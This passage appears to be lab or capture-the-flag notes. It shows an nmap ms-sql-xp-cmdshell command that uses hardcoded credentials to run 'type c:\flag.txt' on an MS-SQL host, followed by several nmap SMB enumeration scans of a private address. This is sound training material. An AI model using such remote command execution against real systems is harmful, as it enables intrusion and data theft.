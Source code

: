   -  nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt" 10.0.30.33  **(legge il flag)**



## Example of enumeration with NMAP of SMB <br>
**Command: nmap 10.3.27.255<br>**
<img src="nmapscan.png" width=70% height="auto"><br><br>
**Command: map -sV -p135,139,445,3389 10.3.27.255 (scan the port 135,139,445,3389 with service and version detection enabled)<br>**
<img src="nmapservice.png" width=80% height="auto"><br><br>
**Command: nmap -O -p135,139,445,3389 10.3.27.255 (OS detection enabled)<br>**
<img src="nmapos.png" width=80% height="auto"><br><br>
**Command: nmap -sC -p135,139,445,3389 10.3.27.255 (script scanning enabled)<br>**